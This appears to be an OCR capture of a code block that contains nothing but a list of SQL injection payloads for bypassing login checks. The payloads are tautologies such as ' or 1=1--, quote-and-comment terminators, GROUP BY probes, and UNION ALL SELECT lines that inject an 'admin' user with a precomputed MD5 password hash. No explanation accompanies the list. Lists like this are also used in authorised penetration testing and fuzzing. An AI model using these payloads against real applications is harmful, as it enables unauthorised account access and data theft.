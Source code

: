 ```sqlite
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
==
=
'
' --
' #
' –
'--
'/*
'#
" --
" #
' and 1='1
' and a='a
 or 1=1
 or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
 and 1=1
 and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
 like '%'
 or 0=0 --
 or 0=0 #
 or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
 or 1=1
 or 1=1--
 or 1=1/*
 or 1=1#
 or 1=1–
' or 1=1--
' or '1'='1
' or '1'='1'--
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1--
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
```
